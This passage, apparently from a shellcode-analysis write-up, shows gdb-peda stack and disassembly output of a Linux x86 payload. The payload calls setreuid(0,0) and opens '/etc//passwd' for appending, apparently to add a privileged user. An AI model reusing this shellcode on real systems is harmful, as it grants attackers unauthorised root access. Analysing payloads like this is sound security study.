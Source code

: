 ```
   0x402042 <code+2>:	mov    ebx,ecx
   0x402044 <code+4>:	push   0x46
   0x402046 <code+6>:	pop    eax
   0x402047 <code+7>:	int    0x80
[------------------------------------stack-------------------------------------]
0000| 0xbffff36c --> 0x40059d (<main+80>:	mov    eax,0x0)
0004| 0xbffff370 --> 0x1 
0008| 0xbffff374 --> 0xbffff434 --> 0xbffff5c1 ("/root/SLAE/shellcode")
0012| 0xbffff378 --> 0xbffff43c --> 0xbffff5d6 ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
0016| 0xbffff37c --> 0x402040 --> 0xcb89c931 
0020| 0xbffff380 --> 0xbffff3a0 --> 0x1 
0024| 0xbffff384 --> 0x0 
0028| 0xbffff388 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```

Let's disassemble.

```
Breakpoint 1, 0x00402040 in code ()
gdb-peda$ disas
Dump of assembler code for function code:
=> 0x00402040 <+0>:	xor    ecx,ecx
   0x00402042 <+2>:	mov    ebx,ecx
   0x00402044 <+4>:	push   0x46
   0x00402046 <+6>:	pop    eax
   0x00402047 <+7>:	int    0x80
   0x00402049 <+9>:	push   0x5
   0x0040204b <+11>:	pop    eax
   0x0040204c <+12>:	xor    ecx,ecx
   0x0040204e <+14>:	push   ecx
   0x0040204f <+15>:	push   0x64777373
   0x00402054 <+20>:	push   0x61702f2f
   0x00402059 <+25>:	push   0x6374652f
   0x0040205e <+30>:	mov    ebx,esp
   0x00402060 <+32>:	inc    ecx
   0x00402061 <+33>:	mov    ch,0x4
   0x00402063 <+35>:	int    0x80
   0x00402065 <+37>:	xchg   ebx,eax
   0x00402066 <+38>:	call   0x402091 <code+81>
   0x0040206b <+43>:	popa   
   0x0040206c <+44>:	bound  esi,QWORD PTR [ebx+0x6f]
   0x0040206f <+47>:	ins    BYTE PTR es:[edi],dx
   0x00402070 <+48>:	outs   dx,DWORD PTR ds:[esi]
   0x00402071 <+49>:	ins    DWORD PTR es:[edi],dx
   0x00402072 <+50>:	bound  edi,QWORD PTR [edx]
   0x00402074 <+52>:	inc    ecx
   0x00402075 <+53>:	jp     0x4020aa
   0x00402077 <+55>:	addr16 cs jp 0x4020dd
   0x0040207b <+59>:	jno    0x4020b6
   0x0040207d <+61>:	arpl   WORD PTR [edx+0x37],si
   0x00402080 <+64>:	arpl   WORD PTR [edx],di
   0x00402082 <+66>:	xor    BYTE PTR [edx],bh
   0x00402084 <+68>:	xor    BYTE PTR [edx],bh
   0x00402086 <+70>:	cmp    ch,BYTE PTR [edi]
   0x00402088 <+72>:	cmp    ch,BYTE PTR [edi]
   0x0040208a <+74>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0040208d <+77>:	das    
   0x0040208e <+78>:	jae    0x4020f8
   0x00402090 <+80>:	or     bl,BYTE PTR [ecx-0x75]
   0x00402093 <+83>:	push   ecx
```